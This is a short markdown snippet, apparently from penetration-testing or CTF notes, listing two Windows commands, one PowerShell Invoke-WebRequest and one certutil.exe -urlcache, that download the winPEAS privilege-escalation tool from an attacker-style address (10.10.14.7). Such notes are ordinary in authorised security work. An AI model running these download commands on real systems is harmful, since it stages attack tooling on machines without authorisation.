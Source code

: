 
## powershell

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.14.7/winPEASany.exe" -OutFile "winPEASany.exe" 
```

## certutil.exe

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.7/winPEASany.exe" winpeas.exe
```

